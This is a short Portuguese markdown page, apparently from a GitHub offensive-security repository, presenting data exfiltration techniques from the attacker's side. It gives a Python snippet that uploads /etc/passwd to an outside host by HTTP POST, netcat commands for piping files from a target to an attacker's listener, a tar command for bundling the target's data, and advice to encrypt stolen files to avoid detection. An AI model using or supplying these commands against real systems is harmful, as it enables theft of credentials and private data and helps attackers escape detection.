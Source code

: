 # 📤 Técnicas de Exfiltração de Dados

Após coletar informações sensíveis, realizamos a exfiltração dos dados do sistema alvo.

---

## 🛠️ 1. Exfiltração via HTTP POST

```python
import requests
files = {'file': open('/etc/passwd', 'rb')}
requests.post('http://192.168.1.120/upload', files=files)
```

---

## 🛠️ 2. Exfiltração com Netcat

```bash
nc -lvp 4444 > dados.txt     # No atacante
nc 192.168.1.120 4444 < dados.txt  # No alvo
```

---

## 🛠️ 3. Compressão antes da exfiltração

```bash
tar czf dados.tar.gz /home/alvo/dados
```

---

## ⚠️ Importante

Sempre criptografar e comprimir arquivos sensíveis para dificultar detecção:
- `gpg`, `zip -e`, `openssl enc`, etc.

